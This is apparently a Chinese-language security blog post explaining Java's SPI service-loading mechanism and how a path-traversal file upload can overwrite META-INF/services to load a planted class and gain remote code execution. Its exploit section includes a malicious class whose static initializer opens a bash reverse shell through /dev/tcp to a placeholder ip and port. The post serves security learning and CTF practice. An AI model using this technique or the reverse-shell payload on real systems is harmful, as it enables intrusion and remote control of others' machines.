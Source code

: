 # SPI机制

>最开始接触是springboot写文件rce里面的charsets遇到了，然后发现yaml的反弹也是使用的SPI机制

SPI全称Service Provider Interface，是Java提供的一套用来被第三方实现或者扩展的API，或者换句话说，**SPI是一种服务发现机制** 

## demo

定义接口 SpiService.java

```java
package com.firebasky.spi;

public interface SpiService {
    public void hello();
}
```

实现接口的方法的类SpiServiceA.java (**需要注意SPI机制的实现类必须有一个无参构造方法**)

```java
package com.firebasky.spi;

public class SpiServiceA implements SpiService {
    public void hello() {
        System.out.println("SpiServiceA.Hello");
    }
}
```

SpiServiceB.java

```java
package com.firebasky.spi;

public class SpiServiceB implements SpiService {
    public void hello() {
        System.out.println("SpiServiceB.Hello");
    }
}
```

SpiTest

````java
package com.firebasky.spi;

import java.util.Iterator;
import java.util.ServiceLoader;

public class SpiTest {
    public static void main(String[] args) throws InterruptedException {
        try {
            init();
        } catch (Exception e) {
            System.out.println("error");
        }
    }
    public static void init(){
        ServiceLoader<SpiService> serviceLoader = ServiceLoader.load(SpiService.class);
        Iterator<SpiService> iterator = serviceLoader.iterator();
        while (iterator.hasNext()) {
            SpiService spiService = iterator.next();
            spiService.hello();
        }
    }
}
````

然后定义META-INF/services
![image-20211219220826826](https://user-images.githubusercontent.com/63966847/146678546-94e017c7-15a4-41f3-8082-4a0083c9b903.png)


然后run之后会输出

```
SpiServiceA.Hello
SpiServiceB.Hello
```

## 分析

也就是我们可以通过spi机制去获得实现接口的类并且实例化去调用方法。

调用**next方法**的时候，实际调用到的是，lookupIterator.nextService。它通过反射的方式，创建实现类的实例并返回。

![image-20211219221208548](https://user-images.githubusercontent.com/63966847/146678550-d158915b-fd15-4b20-a588-063ed76e7f8c.png)


![image-20211219221324358](https://user-images.githubusercontent.com/63966847/146678553-aede21be-261d-4077-9f21-a5ca8d60c4ec.png)


需要注意一点如何获得 **cn**这个变量勒，也就是spi实例化什么东西？这个其实是在 **META-INF/services/com.firebasky.spi.SpiService**中配置的。

## 新思路

那问题来了？

**环境存在路径穿越上传文件会造成rce?** 会的。

如何实现？

我们上传META-INF/services/com.firebasky.spi.SpiService文件并且覆盖其中的值，写入我们的恶意类的全类名比如：

```
com.firebasky.spi.evil
```

然后我们在target\classes\下上传我们的evil.class，然后让其在一次的执行spi的操作。就可以成功rce.

```java
#evil.java
package com.firebasky.spi;

import java.io.IOException;

public class evial implements SpiService{
    static {
        try{
            Runtime.getRuntime().exec(new String[]{"/bin/bash","-c","exec 5<>/dev/tcp/ip/port;cat <&5 | while read line; do $line 2>&5 >&5; done"});
        }catch (IOException e){
            try{
                Runtime.getRuntime().exec(new String[]{"cmd", "/c", "calc"});
            }catch (IOException ee){
            }
        }
    }
    @Override
    public void hello() {
        
    }
}
```

编译成class 之后上传到target\classes\

![image-20211219222014485](https://user-images.githubusercontent.com/63966847/146678561-9958bc94-f179-4440-97c4-fbdd2f7e03de.png)


在覆盖META-INF/services/com.firebasky.spi.SpiService

![image-20211219222049642](https://user-images.githubusercontent.com/63966847/146678565-b5a349de-0fa3-4285-ae4c-3ce8a893bae7.png)


之后执行一下SpiTest。
![image-20211219222131132](https://user-images.githubusercontent.com/63966847/146678572-60f7cfe5-32cf-4a40-9cca-b4a9d452d966.png)


其实也不是什么新思路,很多大师傅在实现写文件rce的时候就用到了,说不定ctf中可能遇到？？？

>参考： 
>
>https://www.cnblogs.com/xrq730/p/11440174.html
>
>https://www.jianshu.com/p/3a3edbcd8f24
